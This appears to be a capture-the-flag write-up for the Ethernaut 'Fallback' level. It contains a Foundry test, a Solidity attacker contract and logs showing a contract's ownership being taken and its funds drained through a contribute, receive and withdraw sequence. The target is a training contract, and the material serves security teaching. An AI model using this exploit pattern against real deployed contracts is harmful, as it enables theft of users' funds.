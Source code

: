 # What is OpenZeppelin Ethernaut?

`OpenZeppelin Ethernaut` is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

# What You're Supposed to Do?

in `01-Fallback` Challenge, You Should Try To find a Way to Do the Following:

1. You Claim ownership of the Contract From Someone else.
2. Find a Way to Steal All Funds From the Contract.

`01-Fallback` Challenge Link: [ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB](ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)


# How to Complete this Challenge?

Take a Look at `testAttackerCanTakeOwnershipAndStealAllFunds` test at `TestFallback.t.sol`:

```javascript

    modifier multipleContributes {
        address[] memory users = new address[](10);
        for (uint i = 0; i < 10; i++) {
            users[i] = address(uint160(i + 1));

            vm.startPrank(users[i]);
            vm.deal(users[i],10 ether);
            fback.contribute{value: 0.0001 ether}();
            vm.stopPrank();
        }
        _;
    }


    function testAttackerCanTakeOwnershipAndStealAllFunds() external multipleContributes {
            vm.startPrank(attacker);
            vm.deal(attacker, 0.1 ether);
            AttackerContract attackerContract = new AttackerContract(fback, attacker);

            uint256 attackerContractBalanceBeforetheAttack = address(attackerContract).balance;
            uint256 fallbackContractBalanceBeforetheAttack = address(fback).balance;

            attackerContract.attack{value: 0.1 ether}();

            uint256 attackerContractBalanceAftertheAttack = address(attackerContract).balance;
            uint256 fallbackContractBalanceAftertheAttack = address(fback).balance;

            console2.log("Attacker Contract Balance Before the Attack: ", attackerContractBalanceBeforetheAttack);
            console2.log("Fallback Contract Balance Before the Attack: ", fallbackContractBalanceBeforetheAttack);

            console2.log("Attacker Contract Balance After the Attack: ", attackerContractBalanceAftertheAttack);
            console2.log("Fallback Contract Balance After the Attack: ", fallbackContractBalanceAftertheAttack);

            assertEq(attackerContractBalanceBeforetheAttack, fallbackContractBalanceAftertheAttack);
            assertEq(attackerContractBalanceAftertheAttack, fallbackContractBalanceBeforetheAttack + 0.1 ether);

            vm.stopPrank();
        }

```

And this is the Contract the Attacker Used to Steal All the Funds of the Fallback Contract:

```javascript
    contract AttackerContract {

        Fallback fallbackContract;
        address private immutable attacker;

        modifier onlyOwner {
            if (msg.sender != attacker) {
                revert("You're Not Owner!");
            }
            _;
        }

        constructor(Fallback _fallbackContract, address _attacker) {
            fallbackContract = _fallbackContract;
            attacker = _attacker;
        }

        function attack() external payable {
            fallbackContract.contribute{value: 0.0001 ether}();
            (bool success,) = address(fallbackContract).call{value: 0.000001 ether}("");
            require(success,"Low Level Call Failed!");
            fallbackContract.withdraw();
        }

        function withdrawContractBalance() external {
            uint256 thisContractBalance = address(this).balance;
            payable(attacker).transfer(thisContractBalance);
        }

        receive() external payable {

        }

        fallback() external payable {

        }

    }
```

You Can Perform the Attack by Running Following Command in Your Terminal: (it is Required to Have Foundry installed.)

```javascript
     forge test --match-test testAttackerCanTakeOwnershipAndStealAllFunds -vvvv
```

then Take Look at Logs:

```javascript
    Logs:
        Attacker Contract Balance Before the Attack:  0
        Fallback Contract Balance Before the Attack:  1000000000000000
        Attacker Contract Balance After the Attack:  101000000000000000
        Fallback Contract Balance After the Attack:  0
```
